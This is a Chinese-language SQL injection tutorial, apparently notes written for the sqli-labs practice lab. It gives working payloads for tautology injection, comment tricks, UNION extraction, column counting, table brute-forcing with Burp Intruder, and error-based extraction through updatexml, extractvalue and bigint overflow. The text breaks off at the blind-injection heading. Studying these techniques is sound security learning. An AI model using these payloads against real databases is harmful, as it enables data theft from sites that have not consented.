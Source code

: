 ### #与--+

#### 1' or 1=1

这是最基础的一个 sql 注入语句

常见于前端直接将用户输入的内容拼接到 SQL 查询语句内，造成攻击者可以利用此特性进行注入操作

假设有这么一个以 php 编写的查询语句： `select username,password from users where id='$id'`  
可见其中的变量$id 就是我们编辑框内输入的内容；

如果我们输入的内容为 `1' or 1=1` 的话，那么最终的查询语句就变成了：  
`select username,password from users where id='1' or 1=1'`  
通过在 1 后面添加单引号，把原本的单引号拆分出来，而 1=1 又必定为真，此时就可以完美的查询出所有结果了！

<br>

#### 注释符号

事实上以上的代码是无法直接运行的，SQL 语句执行完毕后会直接报错，因为最后多出来的一个单引号我们没有闭合！

此时我们通过在语句末尾加上#或者--+就可以把后面的所有内容全部注释，从而遏止对 SQL 查询语句的影响  
如：

1. `select * from users where id='1' or 1=1 #'` 直接注释掉末尾单引号
2. `select * from users where id='1' or 1=1 --+'` +会被直接解析为空格，此时`--`同样可以注释掉末尾单引号

<br>

说白了，我们只要保证 `--` 后面的东西可以被全部注释就完事了，所以我们在 `--后面加个空格` ，再写入任意字符都是可以完成注释的！！！  
下面是一个注入语句：  
`id=1 and 1=1 -- asdjqiwudoqbahdaosdhosa`

<br>

### union

> 以 sqli-webs 靶场作为介绍

<br>

#### 单一使用 union

union：取并集，自动剔除重复内容  
union all：取并集，保留所有内容  
因为表中重复内容出现概率很低，大多数均使用 union

观察以下代码：
`http://sqli:10001/Less-1/?id=0' union select 1,2,database() --+`

进行分析可得：

1. 前后数据表的列数均为 3 列
2. --+前面讲过，即注释掉后面所有的代码
3. id=0 使得前一个数据表查询不到东西，故仅显示后面查询到的内容！

<br>

#### concat_ws

concat_ws(spet,str1,str2)，spet 为分隔符，使用 16 进制表示，str1 和 str2 就是相互连接的两个字符串

常配合 group_concat 使用！

<br>

### 判断技巧

#### union 撞列

使用 `1' order by 4 --+` 来判断数据表的列数

![](../imgs/sqlinject/s/s1-2.png)

<br>

#### 判断字符注入

字符型注入：使用 `1 and 1=1` 成功，且 `1 and 1=2` 没有报错信息；  
解析：因为字符型注入结果为：`select * from xxx where id='1 and 1=1'`会自动把非字符内容全部忽略掉，故结果为`id='1'`，所以怎么改都可以正常查询

整数型注入：使用 `1 and 1=1` 成功，且 `1 and 1=2` 报错；  
解析：因为没有单引号包裹，故 1 后面的语句会被判定为错误的`select * from xxx where id=1 and 1=2`

<br>

#### 判断表是否存在

`asd' and exists(select * from ohmygod)`  
没有找到指定表就会报错；  
使用 burp 抓取，丢到 intruder 里面，为表名加上$，payloads 设置字典，一直撞直到撞出真正的表即可！！！

<br>

### 回显错误

#### updatexml

> 原理：构造一个错误的 XPATH 代码，代码内写我们要查询的东西，SQL 校验错误后会直接回显结果，通关报错拿到信息

这是关于 `updatexml` 的官方解释

```
updatexml (XML_document, XPath_string, new_value);
第一个参数：XML_document是String格式，为XML文档对象的名称
第二个参数：XPath_string (Xpath格式的字符串)
第三个参数：new_value，String格式，替换查找到的符合条件的数据
```

<br>

实际上，第一个和第三个参数可以乱写，我们只需要使第二个参数不符合 XPATH 格式就完毕了！

使用 concat 把一个波浪接到查询代码前面，使得该 XPATH 不符合格式  
`updatexml(666,concat('~',(select user())),'good luck')`

注入后，SQL 校验出错，返回报错信息，同时执行了我们想要的查询代码 `select user()`  
结果：`XPATH syntax error: '~sqli@localhost'`

<br>

#### extractvalue

和 updatexml 用法完全一致；

例子：`extractvalue(0,concat('~',database()))`  
第一个参数乱写，第二个就按照 updatexml 的规矩来走

<br>

#### bigint

大整数报错，不需要知道原理，请按照以下格式输入即可  
`(!(select * from (这里写你要查询的语句)x) - ~0)`

譬如查询表名：  
`!(select*from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x)-~0`

<br>

### 盲注
